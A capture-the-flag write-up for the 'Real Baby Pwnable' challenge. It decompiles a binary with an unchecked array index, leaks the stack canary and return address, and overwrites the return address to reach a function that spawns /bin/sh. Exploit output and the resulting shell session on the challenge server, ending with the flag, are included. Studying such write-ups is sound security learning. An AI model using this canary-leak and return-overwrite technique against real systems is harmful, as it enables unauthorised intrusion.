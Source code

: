 # Real Baby Pwnable
Pwn

## Challenge 
> This is an actual baby pwn challenge.

>`nc ctf.pwn.sg 1500`

>Creator - amon (@nn_amon)

> [realbabypwn](realbabypwn)

## Solution

### Understanding the code

Decompile in Hopper

	void babymode() {
	    system("/bin/sh");
	    return;
	}

    ; Variables:
    ;    var_8: -8
    ;    var_110: -272
    ;    var_908: -2312
    ;    var_910: -2320
    ;    var_914: -2324
    ;    var_918: -2328
    ;    var_919: -2329

	int fibonacci() {
	    var_8 = *0x28;
	    rax = 0x0;
	    var_910 = 0x0;
	    var_908 = 0x1;

	    // Let buf == rbp + 0xfffffffffffff6f0
	    // for buf[8 * 2] to buf[8 * 255]

	    for (var_914 = 0x2; var_914 <= 0xff; var_914 = var_914 + 0x1) {
	            // *(rbp + sign_extend_32(var_914) * 0x8 + 0xfffffffffffff6f0) = *(rbp + sign_extend_32(var_914 - 0x1) * 0x8 + 0xfffffffffffff6f0) + *(rbp + sign_extend_32(var_914 - 0x2) * 0x8 + 0xfffffffffffff6f0);

	            buf[var_914 * 8] = buf[(var_914-1) * 8] + buf[(var_914-2) * 8]
	    }

	    while ((var_919 & 0xff) != 'n') {
	            rax = 0x0;
	            rax = printf("Which fibbonacci offset did you want to look up? ");
	            rax = 0x0;
	            rax = __isoc99_scanf("%d", &var_918);
	            rax = 0x0;
	            rax = printf("Fibbonaci Number %d: %lu\n", var_918, 
	            			buf[(var_918) * 0x8]);
	            rax = 0x0;
	            rax = printf("Want to learn another Fibbonaci number? (y/n) ");
	            rax = 0x0;
	            rax = __isoc99_scanf("%s", &var_919);
	    }
	    rax = 0x0;
	    rax = printf("Did you learn anything? ");
	    rax = read(0x0, &var_110, 0x200); // 512 byte buffer
	    return rax;
	}

It basically has 64-bit array of fibbonacci numbers.

However, there's no input validation so we can read the values on the stack above the array

### Forming the attack

#### 1. Find address

	# gdb ./realbabypwn 

	(gdb) info add babymode
	Symbol "babymode" is at 0x9b0 in a file compiled without debugging.
	(gdb) info add fibonacci
	Symbol "fibonacci" is at 0x9c3 in a file compiled without debugging.
	(gdb) info add main     
	Symbol "main" is at 0xb21 in a file compiled without debugging.
	
	(gdb) run
	
	(gdb) break main
	Breakpoint 1 at 0x555555554b25
	(gdb) break fibonacci
	Breakpoint 2 at 0x5555555549c7
	(gdb) break babymode 
	Breakpoint 3 at 0x5555555549b4

Not an expert at this, but it seems like enabled ASLR.

#### 2. Find address

So we know that the fibbonacci offset starts at `var_910` or -2320
And the buffer for the read() is at `var_110` or -272


The `var_8` seems to be some sort of canary.
Also, after trying some random payloads, we get

	 *** stack smashing detected ***: <unknown> terminated

This confirms that a canary is present.


#### 3. Gather the stack

Thankfully, we can read any addresses using the fibonacci() loop.

With this, We can accumulate all the canary values from offset -272 to 0.

And override the return address at offset 8 and 16 (we can calculate the address by utilising the original return address at offset 8)

Unfortunately, the read() fiunction adds in a null byte which will "stack smash" the canary at offset 24. Hence, include it inside for the payload.

	$ python2 solve.py

	[+] Opening connection to ctf.pwn.sg on port 1500: Done
	>> offset -280 (255): 0x1bed585606b77ee2
	>> offset -272 (256): 0x0
	>> offset -264 (257): 0x0
	>> offset -256 (258): 0x0
	>> offset -248 (259): 0x0
	>> offset -240 (260): 0x0
	>> offset -232 (261): 0x0
	>> offset -224 (262): 0x0
	>> offset -216 (263): 0x0
	>> offset -208 (264): 0x0
	>> offset -200 (265): 0x0
	>> offset -192 (266): 0x0
	>> offset -184 (267): 0x0
	>> offset -176 (268): 0x0
	>> offset -168 (269): 0x0
	>> offset -160 (270): 0x0
	>> offset -152 (271): 0x0
	>> offset -144 (272): 0x0
	>> offset -136 (273): 0x0
	>> offset -128 (274): 0x0
	>> offset -120 (275): 0x7f0146ef5680
	>> offset -112 (276): 0x0
	>> offset -104 (277): 0x7f0146b978a2
	>> offset -96 (278): 0x0
	>> offset -88 (279): 0x7f0146ef5680
	>> offset -80 (280): 0x0
	>> offset -72 (281): 0x0
	>> offset -64 (282): 0x7f0146ef12a0
	>> offset -56 (283): 0x7f0146b93859
	>> offset -48 (284): 0x7f0146ef5680
	>> offset -40 (285): 0x7f0146b8a405
	>> offset -32 (286): 0x7f0146f0a9a0
	>> offset -24 (287): 0x0
	>> offset -16 (288): 0x7ffc45ec3f30
	>> offset -8 (289): 0x873aadd206b4c400
	>> offset 0 (290): 0x7ffc45ec3f30
	>> offset 8 (291): 0x562083d5cb92
	>> offset 16 (292): 0x562083d5cba0
	>> offset 24 (293): 0x7f0146b2ab97
	>> offset 32 (294): 0x0
	[*] Switching to interactive mode
	 $ ls
	bin
	boot
	dev
	etc
	home
	lib
	lib64
	media
	mnt
	opt
	proc
	root
	run
	sbin
	srv
	sys
	tmp
	usr
	var

	$ cd home

	$ ls -la
	total 12
	drwxr-xr-x 1 root root            4096 May 19 00:51 .
	drwxr-xr-x 1 root root            4096 May 19 06:59 ..
	drwxr-x--- 1 root realbabypwnuser 4096 May 19 00:51 realbabypwnuser
	
	$ ls real*
	flag
	realbabypwn

	$ cat real*/flag
	CrossCTF{It3r4t1ve_0ver_R3curs1v3}

## Flag

	CrossCTF{It3r4t1ve_0ver_R3curs1v3}
